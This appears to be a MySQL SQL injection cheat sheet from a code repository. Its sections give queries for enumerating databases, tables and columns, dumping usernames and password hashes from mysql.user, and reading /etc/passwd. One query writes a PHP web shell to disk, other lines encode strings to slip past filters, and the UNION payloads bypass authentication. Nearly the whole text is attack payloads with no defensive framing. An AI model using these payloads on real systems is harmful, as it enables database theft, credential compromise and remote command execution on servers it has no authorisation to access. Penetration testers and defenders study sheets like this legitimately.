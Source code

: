 # SQL Injection - MySQL

## Exploiting

### 1) Common information
```
SELECT version()
SELECT @@version
SELECT user()
SELECT database()
```

### 2) Database name
```
SELECT schema_name FROM information_schema.schemata
SELECT schema_name FROM information_schema.schemata WHERE schema_name=database()
```

### 3) Table names
```
SELECT table_name FROM information_schema.tables
SELECT table_name FROM information_schema.tables WHERE table_schema=database()
```

### 4) Column names
```
SELECT column_name FROM information_schema.columns
SELECT column_name FROM information_schema.columns WHERE table_name='user'
SELECT column_name FROM information_schema.columns WHERE table_name='user' AND table_schema='mysql'
```

### 5) Dump data
```
SELECT user,password FROM user
SELECT user,password FROM mysql.user
```

### 6) Reading files:
```
SELECT load_file('/etc/passwd')
```

### 7) Writing files:
```
SELECT '<?php system($_GET[0]);?>' INTO OUTFILE('/tmp/test.php')
SELECT '<?php system($_GET[0]);?>' INTO DUMP FILE('/tmp/test.php')
```

## Tricks

### 1) Strings:
```
SELECT user,password FROM mysql.user WHERE user='root'
SELECT user,password FROM mysql.user WHERE user=0x726f6f74
SELECT user,password FROM mysql.user WHERE user=char(0x72,0x6f,0x6f,0x74)
SELECT user,password FROM mysql.user WHERE user=char(114, 111, 111, 116)
```

### 2) Concat
```
SELECT concat(user, 0x3a, password) FROM mysql.user
SELECT concat(user, 58, password) FROM mysql.user
```

### 3) Substring
```
SELECT substring(user, 1, 1) FROM mysql.user
```

## Other

### 1) Bypass authentication
```
SELECT password FROM mysql.user WHERE user='root' AND 1=2 UNION SELECT 'test'
SELECT password FROM mysql.user WHERE user='root' AND 1=2 UNION SELECT md5('test')
SELECT password FROM mysql.user WHERE user='root' AND 1=2 UNION SELECT sha1('test')
```
